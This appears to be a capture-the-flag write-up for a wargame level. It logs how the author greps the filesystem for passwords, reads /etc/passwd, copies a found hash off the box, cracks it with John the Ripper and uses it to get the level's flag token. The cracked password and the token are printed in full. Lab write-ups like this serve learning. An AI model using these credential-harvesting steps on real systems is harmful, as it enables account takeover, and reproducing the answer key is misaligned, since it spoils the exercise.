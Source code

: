 -> ls -la

Nothing of interest

-> find / -user flag01 2>/dev/null

Again Nothing

-> grep -R "password" / 2>/dev/null

many lines but one or two show this :

legacy_password: legacycfg

-> grep -R "password" /etc 2>/dev/null

The following line could be of interest :

file needs this password: `xxj31ZMTZzkVA'

su: Authentication failure

-> grep -R "passwd" /etc 2>/dev/null

Found many lines but nothing seems interesting

-> grep -R "flag01" /etc 2>/dev/null

(also the command "cat /etc/passwd" could work)

Found this line :

/etc/passwd:flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash

-> su flag01 -> 42hDRfypTqqnw

Password: 
su: Authentication failure

After some research, I import the text found to a local file so I can use
a tool like john to tempt to crack the password

So I put the next command on the host terminal

-> scp -P 22222 level01@localhost:/tmp/JTR.txt JTR.txt

Where JTR.txt is located in the parent folder of this exercise

Then the file is ready to be given to john as an argument
(still in the host)

Actually the process is kind of different depending on the host used, 
a detailed description of what I did is in JTRSetUp.txt file

So with john's help I found the following :

abcdefg

1 password hash cracked, 0 left

-> su flag01

Password: 
Don't forget to launch getflag !

-> getflag

Check flag.Here is your token : f2av5il02puano7naaf6adaaf

-> su level02 ..
